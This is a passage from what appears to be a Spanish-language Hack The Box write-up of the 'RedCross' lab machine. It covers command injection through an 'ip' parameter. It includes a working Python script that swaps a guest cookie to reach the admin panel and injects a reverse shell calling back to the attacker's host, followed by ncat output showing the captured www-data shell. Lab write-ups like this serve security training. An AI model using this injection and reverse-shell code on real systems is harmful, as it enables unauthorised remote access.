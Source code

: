 ```
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding
refresh: 1;url=/?page=firewall

DEBUG: All checks passed... Executing iptables
Network access restricted to 1.1.1.1
PING 10.10.14.84 (10.10.14.84) 56(84) bytes of data.

--- 10.10.14.84 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

```

Habiendo identificado que podemos realizar un command injection desde el parametro **ip**, prepare el siguiente script de python para generar una reverse shell cada que necesite conectarme:

```python
import requests,netifaces

urlIntraBase='https://intra.redcross.htb'
urlAdminBase='https://admin.redcross.htb'
urlActions = '/pages/actions.php'
loginParms = { "user":"guest", "pass":"guest", "action":"login"}

reverseShell = "python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"" + netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr'] + "\",3001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);\'"

s = requests.Session()
res = s.post(urlIntraBase + urlActions, data = loginParms, verify=False)

headersIntra = res.headers
cookie = ''
for minicookie in headersIntra["set-cookie"].replace('intra', 'admin').split(' '):
    if minicookie.split('=')[0].isupper():
        cookie += minicookie

headersAdmin = {"Cookie": cookie}
payload = {"ip":'1.1.1.1;'+reverseShell, "action":"deny"}
res = s.post(urlAdminBase + urlActions, data=payload ,headers=headersAdmin, verify=False, allow_redirects=False)
print res.text
```

# Digging as www-data

Ahora que hemos conseguido acceso al servidor, comencemos por enumerar el directorio de */var/www/html/*:

```
xbytemx@laptop:~/htb/redcross$ ncat -nvlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:49806.
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ ls
ls
actions.php
bottom.php
cpanel.php
```